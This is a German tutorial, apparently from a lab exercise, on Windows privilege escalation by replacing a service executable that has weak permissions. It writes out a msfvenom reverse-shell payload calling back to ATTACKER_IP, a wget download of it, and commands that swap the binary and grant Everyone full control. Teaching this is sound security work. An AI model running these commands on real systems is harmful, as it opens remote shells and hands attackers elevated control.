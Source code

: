 Für jeden Dienst im System gibt es einen Unterschlüssel. Auch hier können wir die zugehörige ausführbare Datei im ImagePath Wert und das zum Starten des Dienstes verwendete Konto im Wert ObjectName sehen. Wenn für den Dienst eine DACL konfiguriert wurde, wird sie in einem Unterschlüssel namens Security gespeichert. Wie inzwischen bekannt ist, können solche Registry-Einträge standardmäßig nur von Administratoren geändert werden.

###  Insecure Permissions on Service Executable
Wenn die ausführbare Datei, die mit einem Dienst verbunden ist, schwache Berechtigungen hat, die es einem Angreifer erlauben, sie zu ändern oder zu ersetzen, kann der Angreifer die Privilegien des Kontos des Dienstes auf einfache Weise erlangen.

Um zu verstehen, wie das funktioniert, schauen wir uns eine Sicherheitslücke an, die im Splinterware System Scheduler gefunden wurde. Zunächst werden wir die Konfiguration des Dienstes mit sc abfragen:

https://imgur.com/dPeEhvL

Wir sehen, dass der von der anfälligen Software installierte Dienst unter dem Namen svcuser1 ausgeführt wird und dass sich die ausführbare Datei, die mit dem Dienst verbunden ist, in `C:\Progra~2\System~1\WService.exe` befindet. Anschließend überprüfen wir die Berechtigungen für die ausführbare Datei:

  https://imgur.com/yt80nnq

Und hier haben wir etwas Interessantes. Die Gruppe Jeder hat Änderungsrechte (M) für die ausführbare Datei des Dienstes. Das bedeutet, dass wir sie einfach mit einem beliebigen Payload unserer Wahl überschreiben können, und der Dienst wird sie mit den Rechten des konfigurierten Benutzerkontos ausführen.
Erzeugen wir einen Payload für einen Exe-Dienst mit msfvenom und stellen ihn über einen Python-Webserver bereit:

Befehl für msfvenom 
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
```
Befehl für den Python web server zum Bereitstellen:
```
python3 -m http.server
```

Die Payload kann dann via Powershell mit dem Folgenden Befehl geladen werden: 

```
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Sobald sich die Payload auf dem Windows-Server befindet, ersetzen wir die ausführbare Datei des Dienstes durch unsere Payload. Da wir einen anderen Benutzer benötigen, um unseren Payload auszuführen, müssen wir der Gruppe „Jeder“ ebenfalls volle Berechtigungen gewähren:
Das machen wir mit den Befehlen: 
```
cd C:\PROGRA~2\SYSTEM~1\    #um in das Verzeichniss zu navigieren
move WService.exe WService.exe.bkp   #Um die Orginale Datei umzubenennen zu WSERVICE.exe.bkp
move C:\Users\thm-unpriv\rev-svc.exe WService.exe    #Verschieben un Umbenennen der Payload
icacls WService.exe /grant Everyone:F       #Allen Nutzern volle rechte geben
```
http://imgur.com/QvxL7UX
